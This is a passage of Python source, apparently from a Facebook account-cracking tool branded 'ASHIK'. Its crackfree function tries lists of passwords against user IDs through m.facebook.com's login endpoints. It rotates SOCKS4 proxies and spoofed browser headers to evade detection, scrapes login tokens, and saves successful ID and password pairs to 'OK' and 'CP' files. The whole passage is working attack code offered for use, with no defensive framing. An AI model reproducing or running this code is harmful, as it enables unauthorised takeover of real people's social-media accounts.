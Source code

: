             else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
#------------------[ METHODE-MBASIC-2 ]-------------------#
 
def crackfree(idf,pwv):
    global loop,ok,CP
    sys.stdout.write(f"\r{H}[ASHIK-ON]{P}-[{H}{loop}{P}]{P}-[{H}{len(id)}{P}]-[OK{P}-{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="116", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7',}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mASHIK-Cp🖤\033[1;91m] {idf} • {pw}')
                print(f'\033[38;5;196m───────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;92m[{time.strftime("%H:%M")}•ASHIK-Ok💙] \033[1;92m{idf} • \033[1;92m{pw} ')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " ASHIK,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                